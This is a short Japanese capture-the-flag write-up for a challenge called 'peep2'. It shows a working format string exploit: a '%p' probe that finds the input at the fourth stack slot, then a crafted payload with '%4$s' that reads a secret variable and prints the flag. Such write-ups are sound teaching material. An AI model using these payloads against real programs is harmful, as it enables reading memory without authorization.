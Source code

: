 # peep2
format string attackで覗き見る。

```bash=
$ python -c 'import sys;sys.stdout.buffer.write(b"AAAA" + b",%p"*32)' | ./peep2
AAAA,0x80,0xf7f625c0,0x80484bf,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c7025,0x70252c70,(nil),0xffc59cdc,0x804857b,0x1secret address: 0x804a040
```

引数はstackの4番目に積まれることがわかります。
したがって, stackの4番目にsecret変数のアドレスを埋め込み, それを参照することでsecret変数のアドレスを表示させます。

```bash=
$ echo -e '\x40\xa0\x04\x08%4$s' | ./peep2 
@�taskctf{1t's_f0rm@_str1ng_4tt4ck!!}
secret address: 0x804a040
```
